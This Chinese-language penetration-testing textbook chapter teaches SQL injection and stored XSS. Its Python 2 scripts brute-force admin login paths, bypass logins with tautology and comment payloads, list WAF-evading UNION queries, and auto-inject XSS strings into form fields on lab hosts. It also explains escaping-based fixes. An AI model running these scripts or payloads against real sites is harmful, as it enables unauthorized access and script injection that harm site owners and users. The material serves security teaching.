



# 第九章：SQL 和 XSS 渗透测试

在本章中，我们将讨论一些对 Web 应用程序的严重攻击。你一定听说过数据窃取、用户名和密码破解、网站篡改等事件。这些主要是由于 Web 应用程序中存在的漏洞造成的，通常是通过 SQL 注入和 XSS 攻击来实现的。在第七章中，*对 Web 服务器和 Web 应用程序进行足迹扫描*，你学会了如何查看正在使用的数据库软件和 Web 服务器上正在运行的操作系统。现在，我们将逐个进行攻击。在本章中，我们将涵盖以下主题：

+   SQL 注入攻击

+   SQL 注入攻击的类型

+   Python 脚本的 SQL 注入攻击

+   跨站脚本攻击

+   XSS 的类型

+   Python 脚本的 XSS 攻击

# 介绍 SQL 注入攻击

SQL 注入是一种技术，或者你可以说，是一种专家技术，用来利用未经验证的输入漏洞来窃取数据。Web 应用程序的工作方法可以在下面的截图中看到：


Web 应用程序的工作方法

如果我们的查询没有经过验证，那么它将进入数据库执行，然后可能会泄露敏感数据或删除数据。数据驱动的网站工作方式如前面的截图所示。在这个截图中，我们看到客户端在本地计算机上打开网页。主机通过互联网连接到 Web 服务器。前面的截图清楚地显示了 Web 应用程序与 Web 服务器数据库交互的方法。

# SQL 注入的类型

SQL 注入攻击可以分为以下两种类型：

+   简单的 SQL 注入

+   盲目的 SQL 注入

# 简单的 SQL 注入

简单的 SQL 注入攻击包含重言。在重言中，注入语句总是`true`。联合选择语句返回预期数据与目标数据的联合。我们将在下一节详细讨论 SQL 注入。

# 盲目的 SQL 注入

在这种攻击中，攻击者利用数据库服务器在执行 SQL 注入攻击后生成的错误消息。攻击者通过一系列真假问题来获取数据。

# 通过 Python 脚本理解 SQL 注入攻击

所有的 SQL 注入攻击都可以手动进行。但是，你可以使用 Python 编程来自动化攻击。如果你是一个优秀的渗透测试人员，并且知道如何手动执行攻击，那么你可以自己编写程序来检查这一点。

为了获取网站的用户名和密码，我们必须拥有管理员或登录控制台页面的 URL。客户端没有提供网站上管理员控制台页面的链接。

在这里，谷歌未能提供特定网站的登录页面。我们的第一步是找到管理员控制台页面。我记得，多年前，我使用了 URL `http://192.168.0.4/login.php` 和 `http://192.168.0.4/login.html`。现在，Web 开发人员变得聪明了，他们使用不同的名称来隐藏登录页面。

假设我有 300 多个链接要尝试。如果我手动尝试，可能需要一到两天的时间才能获取网页。

让我们看一个小程序`login1.py`，来找到 PHP 网站的登录页面：

```py
import httplib
import shelve # to store login pages name 
url = raw_input("Enter the full URL ")
url1 =url.replace("http://","")
url2= url1.replace("/","")
s = shelve.open("mohit.raj",writeback=True)

for u in s['php']:
  a = "/"
  url_n = url2+a+u
  print url_n
  http_r = httplib.HTTPConnection(url2)
  u=a+u
  http_r.request("GET",u)
  reply = http_r.getresponse()

  if reply.status == 200:
    print "n URL found ---- ", url_n
    ch = raw_input("Press c for continue : ")
    if ch == "c" or ch == "C" :
      continue 
    else :
      break

s.close()
```

为了更好地理解，假设前面的代码是一把空手枪。`mohit.raj`文件就像手枪的弹夹，`data_handle.py`就像可以用来把子弹放进弹夹的机器。

我为一个 PHP 驱动的网站编写了这段代码。在这里，我导入了`httplib`和`shelve`。`url`变量存储用户输入的网站的 URL。`url2`变量仅存储域名或 IP 地址。`s = shelve.open("mohit.raj",writeback=True)`语句打开包含我输入的预期登录页面名称（文件中的预期登录页面）的`mohit.raj`文件，根据我的经验。`s['php']`变量意味着`php`是列表的键名，`s['php']`是使用名称`'php'`保存在 shelve 文件（`mohit.raj`）中的列表。`for`循环逐个提取登录页面名称，`url_n = url2+a+u`将显示用于测试的 URL。`HTTPConnection`实例表示与 HTTP 服务器的一次交易。`http_r = httplib.HTTPConnection(url2)`语句只需要域名；这就是为什么只传递了`url2`变量作为参数，并且默认使用端口`80`并将结果存储在`http_r`变量中。`http_r.request("GET",u)`语句发出网络请求，`http_r.getresponse()`语句提取响应。

如果返回代码是`200`，这意味着我们成功了。它将打印当前的 URL。如果在第一次成功之后，您仍然想要找到更多页面，您可以按*C*键。

你可能想知道为什么我使用了`httplib`库而不是`urllib`库。如果是的话，那么你的想法是正确的。实际上，许多网站使用重定向来处理错误。`urllib`库支持重定向，但`httplib`不支持重定向。考虑到当我们访问一个不存在的 URL 时，网站（具有自定义错误处理）会将请求重定向到另一个包含消息的页面，例如`页面未找到`或`页面不存在`，即自定义的 404 页面。在这种情况下，HTTP 状态返回代码是`200`。在我们的代码中，我们使用了`httplib`；它不支持重定向，因此 HTTP 状态返回代码`200`将不会产生。

为了管理`mohit.raj`数据库文件，我编写了一个 Python 程序`data_handler.py`。

现在，是时候在以下截图中看输出了：


显示登录页面的 login.py 程序

在这里，登录页面是`http://192.168.0.6/admin`和`http://192.168.0.6/admin/index.php`。

让我们检查`data_handler.py`文件。

现在，让我们按以下方式编写代码：

```py
import shelve
def create():
  print "This only for One key "
  s = shelve.open("mohit.raj",writeback=True)
  s['php']= []

def update():
  s = shelve.open("mohit.raj",writeback=True)
  val1 = int(raw_input("Enter the number of values  "))

  for x in range(val1):
    val = raw_input("n Enter the valuet")
    (s['php']).append(val)
  s.sync()
  s.close()

def retrieve():
  r = shelve.open("mohit.raj",writeback=True)
  for key in r:
    print "*"*20
    print key
    print r[key]
    print "Total Number ", len(r['php'])
  r.close()

while (True):
  print "Press"
  print "  C for Create, t  U for Update,t  R for retrieve"
  print "  E for exit"
  print "*"*40
  c=raw_input("Enter t")  
  if (c=='C' or c=='c'):
    create()

  elif(c=='U' or c=='u'):
    update()

  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "t Wrong Input"
```

希望你还记得我们使用数据库文件存储端口号和端口描述的端口扫描程序。这里使用了一个名为`php`的列表，输出可以在以下截图中看到：


通过 data_handler.py 显示 mohit.raj

前面的程序是为 PHP 编写的。我们还可以为不同的 Web 服务器语言编写程序，例如 ASP.NET。

现在，是时候执行基于重言的 SQL 注入攻击了。基于重言的 SQL 注入通常用于绕过用户身份验证。

例如，假设数据库包含用户名和密码。在这种情况下，Web 应用程序编程代码将如下所示：

```py
$sql = "SELECT count(*) FROM cros where (User=".$uname." and Pass=".$pass.")";
```

`$uname`变量存储用户名，`$pass`变量存储密码。如果用户输入有效的用户名和密码，那么`count(*)`将包含一条记录。如果`count(*) > 0`，则用户可以访问他们的帐户。如果攻击者在用户名和密码字段中输入`1" or "1"="1`，那么查询将如下所示：

```py
 $sql = "SELECT count(*) FROM cros where (User="1" or "1"="1." and Pass="1" or "1"="1")";.
```

`User`和`Pass`字段将保持`true`，`count(*)`字段将自动变为`count(*)> 0`。

让我们编写`sql_form6.py`代码并逐行分析它：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
br.select_form(nr=0)
pass_exp = ["1'or'1'='1",'1" or "1"="1']

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(nr=0)
  br.form[user1] = 'admin'
  br.form[pass1] = pass_exp[p]
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",pass_exp[p]

  elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

您应该能够理解程序直到`for`循环。`pass_exp`变量表示基于逻辑的密码攻击列表。`user1`和`pass1`变量要求用户输入用户名和密码字段，如表单所示。`flag=0`变量使`while`循环继续，`p`变量初始化为`0`。在`while`循环内，即`br.select_form(nr=0)`语句，选择 HTML 表单一。实际上，这段代码是基于这样的假设，即当您转到登录屏幕时，它将在第一个 HTML 表单中包含登录用户名和密码字段。`br.form[user1] = 'admin'`语句存储用户名；实际上，我使用它使代码简单易懂。`br.form[pass1] = pass_exp[p]`语句显示将`pass_exp`列表的元素传递给`br.form[pass1]`。接下来，`for`循环部分将输出转换为字符串格式。我们如何知道密码是否已成功接受？您已经看到，成功登录到页面后，您将在页面上找到注销或退出选项。我在名为`list`的列表中存储了不同的注销和退出选项的组合。`data1 = data.lower()`语句将所有数据更改为小写。这将使在数据中查找注销或退出术语变得容易。现在，让我们看看代码：

```py
for l in list:
    for match in re.findall(l,data1):
      flag = 1
```

上述代码将在`data1`中找到`list`的任何值。如果找到匹配项，则`flag`变为`1`；这将打破`while`循环。接下来，`if flag ==1`语句将显示成功的尝试。让我们看看代码的下一行：

```py
elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
```

上述代码显示，如果`pass_exp`列表的所有值都用完了，那么`while`循环将中断。

现在，让我们来检查以下屏幕截图中代码的输出：



SQL 注入攻击

上述屏幕截图显示了代码的输出。这是一个非常基本的代码，用于澄清程序的逻辑。现在，我希望您修改代码，并制作一个新代码，其中您可以为用户名和密码提供列表值。

我们可以为包含`user_exp = ['admin" --', "admin' --", 'admin" #', "admin' #" ]`的用户名编写不同的代码（`sql_form7.py`），并在密码字段中填入任何内容。此列表背后的逻辑是，在管理员字符串`–`或`#`后进行注释，行的其余部分就在 SQL 语句中了：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
form = raw_input("Enter the form name " )
br.select_form(name =form)
user_exp = ['admin" --', "admin' --",   'admin" #', "admin' #" ]

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(name =form)
  br.form[user1] = user_exp[p]
  br.form[pass1] = "aaaaaaaa"
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",user_exp[p]

  elif(p+1 == len(user_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在上述代码中，我们使用了一个额外的变量`form`；在输出中，您必须选择表单名称。在`sql_form6.py`代码中，我假设用户名和密码包含在表单编号`1`中。

上述代码的输出如下：



SQL 注入用户名查询利用

现在，我们可以合并`sql_form6.py`和`sql_from7.py`代码，并制作一个代码。

为了减轻前面的 SQL 注入攻击，您必须设置一个过滤程序，过滤用户输入的输入字符串。在 PHP 中，使用`mysql_real_escape_string()`函数进行过滤。以下屏幕截图显示了如何使用此函数：


PHP 中的 SQL 注入过滤

到目前为止，您已经了解了如何进行 SQL 注入攻击。在 SQL 注入攻击中，我们必须手动完成很多事情，因为有很多 SQL 注入攻击，例如基于时间的、基于 SQL 查询的包含 order by 的、基于联合的等等。每个渗透测试人员都应该知道如何手动制作查询。对于一种类型的攻击，您可以制作一个程序，但现在，不同的网站开发人员使用不同的方法来显示来自数据库的数据。一些开发人员使用 HTML 表单来显示数据，而一些使用简单的 HTML 语句来显示数据。一个名为*sqlmap*的 Python 工具可以做很多事情。然而，有时会存在 Web 应用程序防火墙，例如 mod security；这不允许*union*和*order by*等查询。在这种情况下，您必须手动制作查询，如下所示：

```py
/*!UNION*/ SELECT 1,2,3,4,5,6,--
/*!00000UNION*/ SELECT 1,2,database(),4,5,6 –
/*!UnIoN*/ /*!sElEcT*/ 1,2,3,4,5,6 –
```

您可以制作一个制作的查询列表。当简单查询不起作用时，您可以检查网站的行为。根据行为，您可以决定查询是否成功。在这种情况下，Python 编程非常有帮助。

现在，让我们看一下以下步骤，为基于防火墙的网站制作 Python 程序：

1.  制作所有制作的查询的列表

1.  向网站应用一个简单的查询，并观察网站的响应

1.  使用`尝试不成功`的响应来回应不成功的尝试

1.  逐一应用列出的查询，并通过程序匹配响应

1.  如果响应不匹配，则手动检查查询

1.  如果看起来成功了，那么停止程序

上述步骤仅用于显示制作的查询是否成功。只有通过查看网站才能找到所需的结果。

# 学习跨站脚本

在这一部分，我们将讨论**跨站脚本攻击**（**XSS**）。XSS 攻击利用动态生成的网页中的漏洞，当未经验证的输入数据包含在发送到用户浏览器以进行渲染的动态内容中时，就会发生这种情况。

跨站攻击有以下两种类型：

+   持久性或存储型 XSS

+   非持久性或反射型 XSS

# 持久性或存储型 XSS

在这种类型的攻击中，攻击者的输入被存储在 Web 服务器中。在一些网站上，您会看到评论字段和消息框，您可以在其中写下您的评论。提交评论后，您的评论会显示在显示页面上。试着想象一种情况，您的评论成为 Web 服务器的 HTML 页面的一部分；这意味着您有能力更改网页。如果没有适当的验证，那么您的恶意代码可以存储在数据库中，当它反映回网页时，会产生不良影响。它被永久存储在数据库服务器中，这就是为什么它被称为持久性。

# 非持久性或反射型 XSS

在这种类型的攻击中，攻击者的输入不会存储在数据库服务器中。响应以错误消息的形式返回。输入是通过 URL 或搜索字段给出的。在本章中，我们将处理存储型 XSS。

现在，让我们看一下 XSS 攻击的代码。代码的逻辑是向网站发送一个利用。在以下代码中，我们将攻击表单的一个字段：

```py
import mechanize
import re 
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form

att = raw_input("Enter the attack field ")
non = raw_input("Enter the normal field ")
br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  br.form[non] = 'aaaaaaa'
  br.form[att] = s['xss'][p]
  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

这段代码是为一个使用名称和评论字段的网站编写的。这小段代码将给你一个关于如何进行 XSS 攻击的想法。有时，当你提交评论时，网站会重定向到显示页面。这就是为什么我们使用`br.set_handle_redirect(False)`语句来进行评论。在代码中，我们将利用代码存储在`mohit.xss` shelve 文件中。`br.forms()`中的表单语句将打印出表单。通过查看表单，你可以选择要攻击的表单字段。设置`flag = 'y'`变量使`while`循环至少执行一次。有趣的是，当我们使用`br.open(url)`语句时，它每次都会打开网站的 URL，因为在我的虚拟网站中，我使用了重定向；这意味着在提交表单后，它会重定向到显示页面，显示旧的评论。`br.form[non] = 'aaaaaaa'`语句只是在输入字段中填充`aaaaaa`字符串。`br.form[att] = s['xss'][p]`语句显示所选字段将被 XSS 攻击字符串填充。`ch = raw_input("Do you continue press y ")`语句要求用户输入下一个攻击。如果用户输入`y`或`Y`，`ch.lower()`将其变为`y`，保持`while`循环活动。

现在，是时候看输出了。下面的截图显示了`192.168.0.5`的首页：


网站的首页

现在，是时候看代码的输出了：



代码的输出

你可以在前面的截图中看到代码的输出。当我按下*y*键时，代码发送了 XSS 攻击。

现在，让我们看看网站的输出：


网站的输出

你可以看到代码成功地将输出发送到网站。然而，由于 PHP 中的安全编码，这个字段不受 XSS 攻击的影响。在本章的最后，你将看到评论字段的安全编码。现在，运行代码并检查名称字段：


名称字段的成功攻击

现在，让我们看看`xss_data_handler.py`的代码，从中你可以更新`mohit.xss`：

```py
import shelve
def create():
  print "This only for One key "
  s = shelve.open("mohit.xss",writeback=True)
  s['xss']= []

def update():
  s = shelve.open("mohit.xss",writeback=True)
  val1 = int(raw_input("Enter the number of values  "))

  for x in range(val1):
    val = raw_input("n Enter the valuet")
    (s['xss']).append(val)
  s.sync()
  s.close()

def retrieve():
  r = shelve.open("mohit.xss",writeback=True)
  for key in r:
    print "*"*20
    print key
    print r[key]
    print "Total Number ", len(r['xss'])
  r.close()

while (True):
  print "Press"
  print "  C for Create, t  U for Update,t  R for retrieve"
  print "  E for exit"
  print "*"*40
  c=raw_input("Enter t")  
  if (c=='C' or c=='c'):
    create()

  elif(c=='U' or c=='u'):
    update()

  elif(c=='R' or c=='r'):
    retrieve()

  elif(c=='E' or c=='e'):
    exit()
  else:
    print "t Wrong Input"
```

希望你熟悉前面的代码。现在，看看前面代码的输出：


xss_data_handler.py 的输出

前面的截图显示了`mohit.xss`文件的内容；`xss.py`文件限制为两个字段。然而，现在让我们看看不限于两个字段的代码。

`xss_list.py`文件如下：

```py
import mechanize
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)

br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'

  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

前面的代码能够攻击多个字段或单个字段。在这段代码中，我们使用了两个列表，`list_a`和`list_n`。`list_a`列表包含你想要发送 XSS 攻击的字段名称，`list_n`包含你不想要发送 XSS 攻击的字段名称。

现在，让我们看看程序。如果你理解了`xss.py`程序，你会注意到我们对`xss.py`进行了修改，以创建`xss_list.py`：

```py
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)
```

我已经解释了`list_a[]`和`list_n[]`的重要性。变量字段要求用户输入表单中非只读字段的总数。`for i in xrange(0,field):`语句定义了从 0 到字段的循环，运行字段次数，意味着表单中存在的字段总数。`na`变量要求用户输入字段名称，`ch`变量要求用户输入“你要攻击这个字段吗”？这意味着，如果你按下*y*或*Y*，输入的字段将进入`list_a`；否则，它将进入`list_n`：

```py
for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'
```

前面的代码非常容易理解。两个`for`循环用于两个列表，用于填写表单字段。

代码的输出如下：


填写表单以检查 list_n

前面的屏幕截图显示表单字段的数量为两个。用户输入了表单字段的名称并使它们成为非攻击字段。这只是检查代码的工作方式：


填写表单以检查 list_a 列表

前面的屏幕截图显示用户输入了表单字段并使其攻击字段。

现在，检查网站的响应，如下所示：


表单字段成功填写

前面的屏幕截图显示代码运行正常；前两行已填入普通的`aaaaaaa`字符串。第三行和第四行已被 XSS 攻击填充。到目前为止，您已经学会了如何自动化 XSS 攻击。通过适当的验证和过滤，Web 开发人员可以保护他们的网站。在 PHP 函数中，`htmlspecialchars()`字符串可以保护您的网站免受 XSS 攻击。在前面的屏幕截图中，您可以看到评论字段没有受到 XSS 攻击的影响。以下屏幕截图显示了评论字段的编码部分：


显示 htmlspecialchars()函数的图表

当您查看显示页面的源代码时，它看起来像`&lt;script&gt;alert(1)&lt;/script&gt`;特殊字符`<`被转换为`&lt`，`>`被转换为`&gt`。这种转换称为 HTML 编码。

# 摘要

在本章中，您学习了两种主要类型的 Web 攻击，SQL 注入和 XSS。在 SQL 注入中，您学习了如何使用 Python 脚本找到管理员登录页面。有许多不同的 SQL 注入查询，在本章中，您学习了如何基于逻辑学研究法破解用户名和密码。在 SQL 注入的另一种攻击中，您学习了如何在有效用户名之后发表评论。在 XSS 中，您看到了如何将 XSS 利用应用到表单字段中，在`mohit.xss`文件中，您看到了如何添加更多的利用。
